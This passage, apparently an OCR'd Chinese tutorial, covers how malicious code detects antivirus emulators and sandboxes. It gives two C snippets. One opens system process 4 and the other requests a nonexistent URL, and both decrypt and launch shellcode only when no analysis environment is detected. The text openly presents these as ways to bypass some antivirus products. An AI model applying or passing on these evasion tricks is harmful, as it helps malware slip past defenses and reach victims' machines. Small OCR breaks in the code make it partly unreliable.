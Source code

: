 由于在一个仿真的系统里被推出，或许会有一些错误发生，代码或许在正常权限下不会运行。一般来说，在所有权限下，代码都将运行。这个能够被用来猜出这个代码是否在被分析。



### 例子1：打开系统进程

代码会尝试打开一般是拥有所有权限的4号系统进程。如果这个代码没有运行在系统MIC和ring0下，这个将会失败（OpenProcess会返回 00 ）。在这个VirusTotal中，你会看到这个不是FUD方法，而是绕过一些对这个特殊问题脆弱的杀软。

```c
int main()
{
    HANDLE file;
    HANDLE proc;
    proc = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 4);
    if (proc == NULL)
    {
        decryptCodeSection();
        startShellCode();
    }
    return 0;
}
```



### 尝试打开一个不存在的URL

一种通常用来让代码自我意识到沙箱的方法是在互联网上下载一个特定的文件，并将其哈希与代码知道的哈希进行比较。

为什么这个有效呢？这是因为沙箱环境不给潜在的恶意代码访问互联网的权限。当一个被沙箱分析的文件访问互联网，沙箱只会发送其自身成的文件。因此代码可以通过比较这个文件和其所期望的文件进来判断是否处于沙箱之中。

这个方法有一点问题，首先，如果你没有互联网的访问权限这个就没有效。其次，如果[下载](https://www.77169.net/downloads)的文件改变或者被移除了，代码也不会有效。

另一个没有这些问题的方法是做这个相反的！尝试访问不存在的web域。在真实的世界里，这个会失败。在AV中，因为AV会使用其模拟的页面，这个方法是有效的。

```c
#include <Wininet.h>
#pragma comment(lib, "Wininet.lib")
int main()
{
    char cononstart[] = "http://www.notdetectedmaliciouscode.com//"; // Invalid URL
    char readbuf[1024];
    HINTERNET httpopen, openurl;
    DWORD read;
    httpopen = InternetOpen(NULL, INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
    openurl = InternetOpenUrl(httpopen, cononstart, NULL, NULL, INTERNET_FLAG_RELOAD | INTERNET _FLAG_NO_CACHE_WRITE, NULL);
    if (!openurl) // Access failed, we are not in AV
    {
        InternetCloseHandle(httpopen);
        InternetCloseHandle(openurl);
        decryptCodeSection();
        startShellCode();
    }
    else // Access successful, we are in AV and redirected to a custom webpage
    {
        InternetCloseHandle(httpopen);
        InternetCloseHandle(openurl);
    }
}
```
